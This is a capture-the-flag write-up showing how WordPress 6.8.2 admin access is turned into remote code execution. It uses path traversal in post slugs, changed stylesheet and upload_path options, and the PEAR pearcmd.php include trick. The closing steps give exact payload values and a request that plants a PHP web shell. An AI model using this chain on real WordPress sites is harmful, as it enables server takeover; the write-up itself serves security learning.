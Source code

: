 # wp-admin

* Category: Web
* Score: 450/500
* Solves: 2

## Description

wp-admin to RCE, so easy...?

## Overview

You are given a latest WordPress 6.8.2 (latest version at the time) instance and the admin credentials. The goal is to get RCE on the server. Note that the instance is running on a Docker container, and the WordPress folder is set to be read-only.

## Solution

### The Challenge

The traditional way to get RCE on WordPress from admin panel is to use the theme or plugin editor to add a web shell. However, in this case, the WordPress folder is read-only, so we cannot modify any files directly.

One of the possible route is to get PHP serialized data into the option table in database, so that WordPress will unserialize it when it tries to read the option. However, when writing to the option tables through the admin panel, WordPress will try to detect if the data is serialized, and serialize it again if it is. This prevents unserialization attacks.

### Getting LFI

I expect there are possibly several ways to exploit this, but the specific gadget I used in from [template-loader.php](https://github.com/WordPress/WordPress/blob/6.8.2/wp-includes/template-loader.php#L55-L114). It first check what kind of the *Post* is being requested, and call the respective function to get the path to the template file (PHP file). Later, the returned template path is included, so we can achieve LFI if the returned template path can be controlled.

> In WordPress, a *Post* is not just an article, but also includes pages, attachments, and custom post types.

Owr target is [`get_single_template`](https://github.com/WordPress/WordPress/blob/6.8.2/wp-includes/template.php#L549-L572):

```php
function get_single_template() {
	$object = get_queried_object();

	$templates = array();

	if ( ! empty( $object->post_type ) ) {
		$template = get_page_template_slug( $object );
		if ( $template && 0 === validate_file( $template ) ) {
			$templates[] = $template;
		}

		$name_decoded = urldecode( $object->post_name );
		if ( $name_decoded !== $object->post_name ) {
			$templates[] = "single-{$object->post_type}-{$name_decoded}.php";
		}

		$templates[] = "single-{$object->post_type}-{$object->post_name}.php";
		$templates[] = "single-{$object->post_type}.php";
	}

	$templates[] = 'single.php';

	return get_query_template( 'single', $templates );
}
```

While the `post_type` can't be controlled, and it is `post` for normal articles, the `post_name` can be controlled. The `post_name` is the *Slug* of the post, which can be changed in the admin panel.

![Editing the slug of a post](imgs/edit-slug.png)

However, if we try to put characters like `/` or `..` in the slug, it would be sanitized. Fortunately, the `urldecode` function in `get_single_template` will decode URL encoded characters, so we simply URL encode the path traversal characters. So now, we can control the suffix of the template path to be `single-post-[SLUG].php`.

The `$templates` array is passed to [`get_query_template`](https://github.com/WordPress/WordPress/blob/6.8.2/wp-includes/template.php#L23-L104), which calls [`locate_template`](https://github.com/WordPress/WordPress/blob/6.8.2/wp-includes/template.php#L718-L749) to find the full path of templates.

```php
function locate_template( $template_names, $load = false, $load_once = true, $args = array() ) {
	global $wp_stylesheet_path, $wp_template_path;

	if ( ! isset( $wp_stylesheet_path ) || ! isset( $wp_template_path ) ) {
		wp_set_template_globals();
	}

	$is_child_theme = is_child_theme();

	$located = '';
	foreach ( (array) $template_names as $template_name ) {
		if ( ! $template_name ) {
			continue;
		}
		if ( file_exists( $wp_stylesheet_path . '/' . $template_name ) ) {
			$located = $wp_stylesheet_path . '/' . $template_name;
			break;
		} elseif ( $is_child_theme && file_exists( $wp_template_path . '/' . $template_name ) ) {
			$located = $wp_template_path . '/' . $template_name;
			break;
		} elseif ( file_exists( ABSPATH . WPINC . '/theme-compat/' . $template_name ) ) {
			$located = ABSPATH . WPINC . '/theme-compat/' . $template_name;
			break;
		}
	}

	if ( $load && '' !== $located ) {
		load_template( $located, $load_once, $args );
	}

	return $located;
}
```

The function will check the existence of the template files in three locations:

1. `$wp_stylesheet_path`: The path of the active theme.
2. `$wp_template_path`: The path of the parent theme, if a child theme is used.
3. `ABSPATH . WPINC . '/theme-compat/'`: A fallback directory in WordPress core files.

The `$wp_stylesheet_path` is the `stylesheet` option in the database, which can be changed in `/wp-admin/options.php`. So the full returned template path is:

```
[THEME_PATH]/single-post-[SLUG].php
```

Where `[THEME_PATH]` is the value of `stylesheet` option, and `[SLUG]` is the slug of the post. If we set `stylesheet` to `../../../../tmp` and the slug to `/../../something`, the path would be:

```
../../../../tmp/single-post-/../../something.php
```

This means if `/tmp/single-post-` folder exists, we can include any file ends with `.php` under the file system, achieving LFI.

But how do we create `/tmp/single-post-` folder? It is actually quite easy, just change the `upload_path` option and upload an attachment. The attachment will be stored in `[UPLOAD_PATH]/[YEAR]/[MONTH]/`, and WordPress will create the folder if it does not exist. So if we set `upload_path` to `/tmp/single-post-`, then the folder will be created when we upload an attachment.

### LFI to RCE

Now, we can basically include any PHP file on the server, how to pop a shell from it? Using `find / -name '*.php'` in the WordPress container, we can find `pearcmd.php` so the well-known PEAR LFI to RCE trick also works here.

### Chaining All Together

To exploit this, follow these steps:

1. Ensure at least two posts exist.
2. Change the slug of the first to `%2f%2e%2e%2f%2e%2e%2fusr%2flocal%2flib%2fphp%2fpearcmd` and the second to `%2f%2e%2e%2f%2e%2e%2ftmp%2fshell`, and record their post IDs.
3. Change `stylesheet` option to `../../../../../../../../tmp/`.
4. Change `upload_path` option to `/tmp/single-post-`.
5. Upload an attachment somewhere to create `/tmp/single-post-` folder.
6. Access `/?p=[PEARCMD_POST_ID]&+config-create+/<?system($_GET[0]);die();?>+/tmp/shell.php` to write a web shell to `/tmp/shell.php`.
7. Access `/?p=[SHELL_POST_ID]&0=/readflag` to get the flag.

See [solve.py](./exp/solve.py) for the full exploit script.
